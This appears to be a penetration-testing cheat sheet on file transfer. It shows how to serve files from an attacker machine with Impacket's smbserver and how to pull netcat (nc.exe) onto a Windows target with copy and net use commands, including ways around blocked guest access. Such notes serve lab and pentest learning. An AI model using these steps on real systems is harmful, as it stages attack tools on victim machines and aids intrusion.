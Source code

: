 
## 1. Start an SMB Server (Attacker Machine)

Use **Impacket’s `smbserver.py`** to share a folder from your attack box.

```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

This shares the folder `/tmp/smbshare` with the name **share**.

---

## 2. Download a File on Windows (Target Machine)

From the **Windows target** machine:

```powershell
copy \\192.168.220.133\share\nc.exe
```

This copies `nc.exe` from the attacker’s `/tmp/smbshare` folder to the **current directory** on the Windows system.

Example output:

```
1 file(s) copied.
```

---

## 3. Fix Guest Access Issues

If you see this error:

```
You can't access this shared folder because your organization's security policies block unauthenticated guest access
```

It means guest access is blocked.  
Use **authentication** instead.

---

## 4. Start SMB with Credentials (Attacker Machine)

```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

---

## 5. Map the SMB Share on Windows (Target Machine)

Map the shared folder as a drive:

```cmd
net use n: \\192.168.220.133\share /user:test test
```

Then copy the file:

```cmd
copy n:\nc.exe
```

Output:

```
1 file(s) copied.
```

---

## Tips

- Always use **`-smb2support`** for better compatibility with modern systems.
    
- Map to a drive letter (`n:` in the example) for easier navigation.
    
- If SMB traffic is filtered, consider tunneling over other protocols.
    

---

